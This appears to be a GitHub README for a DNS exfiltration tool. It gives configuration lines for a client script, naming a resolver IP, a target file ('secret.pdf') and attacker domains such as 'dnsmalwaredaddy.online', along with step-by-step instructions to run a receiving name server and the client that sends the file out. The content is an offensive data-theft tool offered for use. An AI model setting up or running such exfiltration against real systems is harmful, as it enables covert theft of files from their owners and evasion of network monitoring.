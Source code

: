 # DNS-Exfiltration
Mudik DNS Exfiltration</br>
![image](https://github.com/spatronn/DNS-Exfiltration/assets/27374567/5263e009-4e22-49c5-9db0-f7e6628e7170)


<b>Change the parameter according to your environment:</b></br>
//Enter your DNS Resolver (client.py)</br>
dns_server = "3.253.51.115"</br>
//Specify the file you want to exfiltrate instead of secret.pdf (client.py)</br>
with open("secret.pdf", "rb") as pdf_file:</br>
//Define the domain or domains you will use in DNS Exfiltration. (client.py)</br>
domain_list = ["dnsmalwaredaddy.online","laleler-denemeler.top"]</br>


STEP-1</br>
Install requirements</br>
STEP-2</br>
Run server.py on your name server.Make sure that the DNS service is not running on this server.</br>
STEP-3</br>
Modified client.py according to your environment.</br>
STEP-4</br>
Run client.py</br>

